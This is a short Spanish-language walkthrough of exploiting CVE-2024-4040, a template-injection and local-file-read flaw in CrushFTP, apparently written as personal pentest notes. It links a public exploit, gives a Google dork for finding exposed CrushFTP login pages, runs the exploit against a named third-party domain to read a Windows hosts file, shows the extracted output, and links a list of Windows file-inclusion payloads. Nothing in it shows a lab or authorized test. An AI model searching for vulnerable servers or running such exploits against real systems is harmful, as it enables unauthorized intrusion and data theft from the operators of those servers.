 # Crushed - CVE-2024-4040
___
Esta es una prueba de concepto para una vulnerabilidad de inyección de plantilla del lado del servidor (SSTI) e inclusión de archivos locales (LFI) en CrushFTP.

Descargamos el exploit desde el siguiente enlace:
- https://github.com/Stuub/CVE-2024-4040-SSTI-LFI-PoC

Buscamos servidores vulnerables utilizando *Google Dorking*.
```bash
intitle:"CrushFTP WebInterface" inurl:/WebInterface/login.html
```

Ejecutamos el exploit.
```bash
┌──(mr-r00t㉿mr-r00t)-[~/Exploits/CVE-2024-4040-SSTI-LFI-PoC]
└─$ python3 crushed.py -t https://html.documation.com/ --lfi "C:/windows/system32/drivers/etc/hosts"
```

Nos aparece un error al leer el archivo, ya que identificamos que es un sistema *Windows*.
```bash
[+] Installation directory of CrushFTP: C:/CrushFTP10/
[+] File to read: C:/windows/system32/drivers/etc/hosts
```

Para vulnerar el sistema, tendriamos que utlizar payloads de *Windows*, podemos utilizar el siguiente diccionario:

- https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-windows-list.txt

Al finalizar el exploit, nos muestra el output del script.
```bash
[+] Successfully extracted C:/windows/system32/drivers/etc/hosts
[+] Extracted response: 
<?xml version="1.0" encoding="UTF-8"?> 
<commandResult><response>You need download, upload permissions to zip a file:/a
You need upload permissions to zip a file:# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#       127.0.0.1       localhost
#       ::1             localhost


</response></commandResult>
```

___
